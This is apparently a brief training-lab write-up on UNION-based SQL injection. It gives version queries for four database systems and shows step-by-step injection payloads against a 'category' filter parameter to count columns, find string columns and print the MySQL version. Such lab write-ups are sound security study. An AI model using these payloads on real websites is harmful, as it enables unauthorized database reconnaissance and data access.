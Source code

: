 ## End Goal :  To solve the lab, display the database version string. 

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|   |   |
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

GET /filter?category=Pets HTTP/2

## Finding the number column:

`Pets ' Union select null, null #`
for mysql comment is # not --

here number of column = 2


## finding column of string data type

`Pets ' Union select 'a', 'a' #`

Both column are of string data type

## solving the end goal

`pets ' union select @@version , 'a' #`
